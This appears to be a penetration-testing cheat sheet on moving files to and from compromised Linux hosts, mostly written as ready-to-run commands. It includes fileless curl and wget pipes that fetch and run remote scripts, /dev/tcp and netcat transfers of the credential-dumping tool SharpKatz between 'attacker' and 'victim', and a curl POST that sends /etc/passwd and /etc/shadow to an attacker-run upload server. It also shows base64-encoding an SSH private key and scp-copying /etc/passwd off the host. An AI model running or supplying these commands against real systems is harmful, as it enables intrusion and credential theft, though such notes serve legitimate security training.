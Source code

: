 # Content
- [Download Operations](#download-operations)
  - [Base64 Encoding / Decoding](#1-base64-encoding--decoding)
  - [Web Downloads](#2-web-downloads)
  - [SSH Downloads](#3-ssh-downloads)
  - [nc tools](#4-nc-tools)
- [Upload Operations](#upload-operations)
  - [Web Upload](#web-upload)
  - [Alternative Web File Transfer Method](#alternative-web-file-transfer-method)
  - [SCP Upload](#scp-upload)
 
- [Living off The Land](#living-off-the-land)

# Download Operations

## 1) Base64 Encoding / Decoding
- encode
```bash
$ cat id_rsa |base64 -w 0;echo
```
- paste
```bash
$ echo -n '<base64>' | base64 -d > id_rsa
```

## 2) Web Downloads 

### with Wget and cURL
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Fileless Attacks Using Linux
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

**Note:** Some payloads such as mkfifo write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.

### Download with Bash (/dev/tcp)
There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.


```bash
$ exec 3<>/dev/tcp/10.10.10.32/80

$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

$ cat <&3
```

## 3) SSH Downloads
- start ssh
```
sudo systemctl start ssh
```
- connect to it
```
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

**Note:** You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

## 4) nc tools
- **attacker**
```bash
## attacker lestin
sudo nc -l -p 443 -q 0 < SharpKatz.exe
sudo ncat -l -p 443 --send-only < SharpKatz.exe
## victim connect
sudo ncat -l -p 443 --send-only < SharpKatz.exe
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe

## OR vicitm lestin
nc -l -p 8000 > SharpKatz.exe
ncat -l -p 8000 --recv-only > SharpKatz.exe
## attacker send
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe

```

# Upload Operations

## Web Upload

- upload server
```
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

$ sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```
- get to it
```
$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## Alternative Web File Transfer Method
- create web server
```
python3 -m http.server

python2.7 -m SimpleHTTPServer

php -S 0.0.0.0:8000

ruby -run -ehttpd . -p8000
```
- get from it 
```
wget 192.168.49.128:8000/filetotransfer.txt
```

## SCP Upload

```
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```

## nc tools
the same as in download in reverse


# Living off The Land
check in [GTFOBins for Linux Binaries](https://gtfobins.github.io/) and search for download and upload
